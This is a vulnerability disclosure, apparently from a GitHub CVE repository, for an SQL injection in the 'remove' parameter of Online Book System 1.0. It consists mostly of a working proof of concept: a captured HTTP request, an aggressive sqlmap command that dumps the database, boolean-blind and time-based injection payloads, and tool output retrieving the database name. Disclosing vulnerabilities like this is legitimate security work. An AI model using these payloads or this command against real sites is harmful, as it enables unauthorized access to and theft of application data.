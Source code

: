 # Online Book System- SQL Injection - 6
+ **Exploit Title:** Online Book System- SQL Injection
+ **Date:** 2024-26-03
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://code-projects.org/online-book-system-in-php-css-js-and-mysql-free-download/
+ **Software Link:** https://download.code-projects.org/details/74c24d93-431e-4e31-acc1-802f14caef5c
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number.

## Description:
Online Book System 1.0 allows SQL Injection via the 'remove' parameter at "/BookStore-master%201/cart.php?remove=ENT-1". 
Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "localhost/BookStore-master 1/index.php"
+ Then select a book and press buy
+ Then click remove-buton
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:

```
GET /BookStore-master%201/cart.php?remove=ENT-1 HTTP/1.1
Host: localhost
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
```

+ Use sqlmap to exploit. In sqlmap, use 'remove' parameter to dump the database.
```
sqlmap -r r.txt -p remove --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: remove (GET)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: remove=ENT-1' RLIKE (SELECT (CASE WHEN (7446=7446) THEN 0x454e542d31 ELSE 0x28 END))-- qerH

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: remove=ENT-1' AND (SELECT 3554 FROM (SELECT(SLEEP(5)))driG)-- ENsN
---
[11:38:57] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[11:38:57] [INFO] fetching current database
[11:38:57] [INFO] retrieving the length of query output
[11:38:57] [INFO] resumed: 16
[11:38:57] [INFO] resumed: u385439067_store
current database: 'u385439067_store'

```
+ current database: `u385439067_store`

![Ekran görüntüsü 2024-03-26 183944](https://github.com/BurakSevben/CVEs/assets/117217689/4d7a5746-af63-4898-a947-c8a74af95d20)
